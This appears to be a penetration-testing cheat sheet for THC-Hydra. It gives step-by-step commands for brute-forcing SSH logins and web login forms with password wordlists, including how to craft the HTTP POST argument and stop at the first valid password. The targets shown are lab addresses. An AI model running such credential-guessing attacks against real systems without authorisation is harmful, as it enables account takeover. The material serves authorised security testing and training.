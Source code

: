 ## THC-Hydra

Powerful network service attack that works against a variety of protocol authentication schemes.

Show additional info about a module

```bash
hydra SERVICENAME -U | less
```

### SSH Attack

```bash
hydra -l kali -P ~/password-file.txt ssh://127.0.0.1

# Options
-l	# Specify login username
-P	# Password file
ssh://127.0.0.1		# Target as PROTOCOL://IP
```

### HTTP Post Attack

1. Show additional info about the http module

   ```bash
   hydra http-form-post -U | less
   ```

2. Identify the IP and URL of the webform to attack

3. Inspect the form page's source code and identify:

   - The page that the data is posted to
   - The form parameters (name of user and password fields)

4. Identify the condition string for a failed login by attempting to login and noting the text that is returned.

5. Craft the argument for the post request, using the form parameters, `^PASS^` as the placeholder for the wordlist, and the text from the failed login attempt.

   ```php+HTML
   http form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN"
   ```

6. Use the argument with Hydra to initiate the attack:

   ```bash
   hydra 192.168.216.10 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
   
   # Options
   http-form-post	# Service module name
   -vV		# Verbose output
   -f		# Stop attack at first successful result
   ```



